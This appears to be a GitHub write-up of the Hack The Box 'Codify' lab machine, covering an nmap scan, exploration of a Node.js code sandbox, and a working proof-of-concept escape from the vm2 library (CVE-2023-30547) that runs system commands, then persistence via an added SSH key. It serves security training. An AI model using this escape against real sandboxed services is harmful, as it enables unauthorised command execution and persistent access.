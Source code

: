 

# Codify


<p align="center">
  <img src="https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/0897cb09-50b3-430b-9376-58dfe79b24c1" />
</p>


"WebSandbox Escape Challenge," a sophisticated Linux Operating System test bed meticulously crafted to evaluate your proficiency in navigating a web application vulnerability, culminating in a comprehensive system takeover.
Engage in this immersive experience where participants find themselves confined within a virtual web sandbox. Your mission, should you choose to accept it, is to navigate intricate layers, decipher concealed keys, hijack scripts, and ultimately secure root access. This challenge serves as a definitive masterclass, refining your skills in circumventing constraints, exploiting guarded secrets, and wielding authoritative power within a simulated environment.
Beyond traditional cybersecurity exercises, this repository offers a dynamic and intellectually stimulating experience, pushing the boundaries of your ingenuity and strategic thinking. "WebSandbox Escape Challenge" is not merely a code repository; it represents a gateway for honing your cybersecurity skills and mastering the intricate craft.
Are you prepared to break free, unleash your potential, and emerge victorious in this stimulating adventure? The challenge beckons – let the hacking games commence!

__Keywords:
node.js, vm2, python exploit scripting__


## Updating the Hosts Configuration with the Target:

To direct traffic towards the target, codify.htb, it is necessary to append its information to the __"/etc/hosts file"__. Ensure the target's details are accurately encoded in the hosts file and then save the changes to facilitate seamless interaction.

```bash

echo "10.10.14.239 codify.htb" | sudo tee -a /etc/hosts

```


## Enumeration: revealing the target's landscape.

Starting a Nmap scan is the critical first step in comprehending the complexities of the target environment. By painstakingly probing the target, the attacker acquires crucial knowledge, allowing for a more focused and educated investigation. This enumeration procedure establishes the groundwork for finding possible vulnerabilities, paving the way for the next stages of the penetration testing journey.

```bash
nmap -sC -sV -v -oN nmap.log 10.10.11.239
```

```bash

Nmap scan report for codify.htb (10.10.11.239)
Host is up (0.13s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /opt/homebrew/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```


Port Analysis: Introducing Services on the Target System

- Port 22 shows an active OpenSSH 8.9p1 service, indicating that SSH is available for remote access. The use of a latest version indicates a lower chance of vulnerabilities.

- An Apache 2.4.52 web server is exposed on port 80. A thorough check with the http-methods probe reveals support for popular methods like GET, HEAD, and POST. This implies the presence of a web application, prompting additional investigation.

- Intriguingly, port 3000 reveals a live Node.js Express framework service. Given the typical susceptibility of Node.js apps to code and dependency vulnerabilities, this revelation offers up possibilities for further investigation and potential exploitation.


## Exploration of Codify's Environment -

Commencing the towards an initial foothold, I directed my attention to codify.htb, leveraging the capabilities of Burp Suite for traffic interception. A systematic exploration of the web application unveiled three primary pages:

-  About Us: This section provided a comprehensive overview, revealing Codify as a Node.js sandbox environment utilizing the vm2 library to securely execute untrusted code.

-  Editor: A straightforward page with a textarea interface enabled users to input Node.js code for execution.

-  Limitations: Highlighting operational constraints, this page documented restricted access to specific modules such as child_process and fs.

The "About Us" page disclosed that while Codify excelled in sandboxing code execution, it wasn't impervious to vulnerabilities.

Conducting an in-depth inquiry into the vm2 library, I uncovered a recently disclosed Sandbox Escape vulnerability, identified as   ___CVE-2023-30547___.  This newfound knowledge hinted at a potential avenue to exploit and surpass the sandbox limitations.

To validate this discovery, I implemented a Proof of Concept (PoC) exploit code within the textarea. This exploit manipulated Proxy and Error objects, enabling unauthorized access to the main process and execution of arbitrary commands, effectively demonstrating the practical exploitation of the identified vulnerability.


```bash

const {VM} = require("vm2");
const vm = new VM();

const code = `
cmd = 'id'
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync(cmd);
}
`
console.log(vm.run(code));

```

Having successfully executed the exploit, I utilized this newfound capability to run commands on the underlying system. By adding my SSH public key to the ~/.ssh/authorized_keys file, I established a secure and persistent connection. Exploiting this access, I gained shell access as the current user, identified as "svc," marking a significant advancement in the penetration process. This achievement set the stage for continued exploration and manipulation within the system.

![codify pawnd by Mr Govind Dubey](https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/a396cc30-69fc-4585-bc1d-45380d604c01)

The vulnerable vm2 version along with sandbox escape primitives were key to gaining an initial foothold on the Codify server.

I SSH'd into the server as user svc:

```bash
ssh svc@codify.htb -i id_rsa
```

